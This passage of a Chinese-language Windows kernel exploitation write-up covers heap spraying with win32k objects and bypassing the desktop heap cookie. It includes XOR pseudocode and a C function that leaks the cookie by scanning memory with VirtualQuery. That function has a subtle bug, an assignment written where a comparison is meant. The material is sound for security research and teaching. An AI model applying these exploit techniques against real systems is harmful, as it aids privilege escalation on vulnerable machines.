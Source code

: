 上面的代码对`_LARGE_UNICODE_STRING`结构进行初始化以及设置，涉及到`RtlInitLargeUnicodeString`和`NtUserDefSetText`函数，对`tagPROPLIST`结构的设置，涉及到`SetPropA`函数，对`tagMENU`结构的设置，堆喷完的结果如下图所示，四个一组，依次循环

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0176ddaf7f948baff3.png)

验证过程如下所示

[![](https://s2.ax1x.com/2019/11/09/MnEYBq.gif)](https://s2.ax1x.com/2019/11/09/MnEYBq.gif)

### <a class="reference-link" name="Bypass%20heap%20cookie"></a>Bypass heap cookie

堆头的绕过其实就是多次异或操作，当Windows每次开机的时候会产生一个 cookie ，[wjllz师傅](https://bbs.pediy.com/thread-247281.htm)讲的比较直观，伪代码大致如下实现

```
heapCode[11] = heapCode[8] ^ heapCode[0] ^ heapCode[10] // 构造smalltagIndex
heapCode ^= cookie(系统每次开机的时候一个随机值);
if(heapCode[11] != heapCode[8] ^ heapCode[9] ^ heapCode[10])    //类似于这种判断
    BSOD
```

我们可以在溢出前对堆头进行记录，然后进行手动计算检验是否能绕过，这里我直接参考泄露cookie的代码，大致流程是通过对`MEMORY_BASIC_INFORMATION`结构体中各种内容的比较从而实现对 cookie 的泄露，其实这部分更像是一个公式一样，相当于可以直接拿来用，当然想要完全理解肯定需要你自己手动调试的

```
BOOL GetDHeapCookie()
`{`
    MEMORY_BASIC_INFORMATION MemInfo = `{` 0 `}`;
    BYTE *Addr = (BYTE *) 0x1000;
    ULONG_PTR dheap = (ULONG_PTR)pSharedInfo-&gt;aheList;

    while (VirtualQuery(Addr, &amp;MemInfo, sizeof(MemInfo)))
    `{`
        if (MemInfo.Protect = PAGE_READONLY &amp;&amp; MemInfo.Type == MEM_MAPPED &amp;&amp; MemInfo.State == MEM_COMMIT)
        `{`
            if ( *(UINT *)((BYTE *)MemInfo.BaseAddress + 0x10) == 0xffeeffee )
            `{`
                if (*(ULONG_PTR *)((BYTE *)MemInfo.BaseAddress + 0x28) == (ULONG_PTR)((BYTE *)MemInfo.BaseAddress + deltaDHeap))
                `{`
                    xorKey.append( (CHAR*)((BYTE *)MemInfo.BaseAddress + 0x80), 16 );
                    return TRUE;
                `}`
            `}`
        `}`
        Addr += MemInfo.RegionSize;
    `}`

    return FALSE;
`}`
```

